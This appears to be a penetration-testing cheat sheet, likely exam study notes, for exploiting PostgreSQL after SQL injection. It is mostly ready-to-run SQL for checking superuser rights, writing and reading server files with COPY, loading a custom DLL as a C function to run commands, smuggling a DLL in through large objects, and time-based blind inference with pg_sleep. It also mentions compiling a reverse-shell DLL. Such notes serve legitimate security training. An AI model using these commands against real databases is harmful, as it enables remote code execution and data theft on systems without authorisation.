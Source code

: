 ## FYI

Delimit strings using `$$`, e.g. `select $$hello world$$`.

```pgsql
create temp table mytable (content text);
drop table mytable;
```

## Injection


## Discovery

`\dt` describe tables
`\df` describe functions
`\d pg_largeobject` describe table schema

```pgsql
select current_setting('is_superuser');
```

## Escalation

### File System Access
Write to the file system

```pqsql
copy (select $$awae$$) to $$C:\Users\Public\offsec.txt$$;
```

### User Defined Functions

Create compiled postgres extension .dll files with user defined functions (UDF).  You will need the C code for the reverse shell and compile it with magic PGSQL headers.

```
create or replace function system(cstring) returns int as 'C:\Windows\System32\kernel.dll','WinExec' language c strict;
```
```
create or replace function test(text, integer) returns void as $$C:\awae.dll$$,$$awae$$ language c strict;

select test($$calc.exe$$, 3);

drop function test(text, integer);
```

### Large Objects

If you have DBA privileges, you can also import large objects into the `PG_LARGEOBJECT` table, with a random or given large object ID stored in the `loid` column.  Note that:
* The objects are stored in 2KB chunks as indicated by the `pageno` column.
* The `lo_import` and `lo_export` functions also update a bunch of other metadata.  Therefore updating the `pg_largeobject` table directly is not recommended.

```pgsql
select lo_import($$C:\awae.dll$$);
select lo_import($$C:\awae.dll$$, 1337);
```
```pqsql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
```pqsql
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;
```
```pgsql
select lo_export(1337, $$C:\awae.dll$$);
```
```pgsql
\lo_list
\lo_unlink 1337
select lo_unlink(1337);
```





## Exfiltration

Time-based inference

```pgsql
select case when (select current_setting('is_superuser'))=$$on$$ then pg_sleep(5) end;
```

Read data from the file system into a table

```pgsql
copy mytable from $$C:\Users\Public\offsec.txt$$;
```